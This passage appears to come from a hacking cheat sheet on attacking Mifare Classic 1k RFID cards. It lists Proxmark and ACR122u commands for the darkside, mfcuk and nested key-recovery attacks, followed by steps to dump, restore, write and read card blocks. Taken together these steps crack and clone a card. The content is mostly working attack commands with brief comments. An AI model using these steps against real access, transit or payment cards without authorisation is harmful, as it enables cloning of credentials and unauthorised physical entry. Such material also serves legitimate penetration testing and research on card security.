 ```powershell
hf 14a sim 2 <7-byte tag>
```

### HF - Mifare Classic 1k

New method for Proxmark : `hf mf autopwn`

#### Darkside attack (PRNG Weak)

**Proxmark method**

```powershell
pm3> hf search
pm3> hf mfu
pm3> hf mf darkside  (fork command)
pm3> hf mf mifare    (original command)
Parity is all zero. Most likely this card sends NACK on every failed authentication. # Card is empty...
or
Found valid key:ffffffffffff # KEY_FOUND

pm3> hf mf chk 0 A KEY_FOUND    (Check Found Key On Block 0 A)
```

**ACR122u method**

```powershell
# start cracking the first key of the first sector. 
mfcuk -C -R 0:A -v 3 -s 250 -S 250
mfcuk -C -R 3:A -v 3 -s 250 -S 250 -o mycard.mfc
```

#### Nested attack (PRNG Weak)

> Need to find a default key to extract the others

**Proxmark method**

```powershell
hf search
hf mf chk 1 ? t                      # "Test Block Keys" command which will test the default keys for us
hf mf nested 1 0 A a0a1a2a3a4a5 t.   # "Nested Attack" use the key a0a1a2a3a4a5, keeping the key in memory with "t"
hf mf chk * ?                        # "Test Block Keys" command which will test the default keys for us
hf mf nested 1 0 A ffffffffffff   d  # "Nested Attack" use the key ffffffffffff to extract the others (file:dumpkeys.bin)
hf mf dump 1                         # Dump content
hf mf restore 1                      # Restore content into the card
hf mf wrbl 5 A 080808080808 32110000cdeeffff3211000005fa05fa  # write on block 5, with the key 0808... the content 3211...
hf mf rdbl 5 A 080808080808          # Read block 5 with the keu 0808..


python pm3_mfd2eml.py dumpdata.bin dumpdata.eml
pm3> hf mf cload dumpdata
```

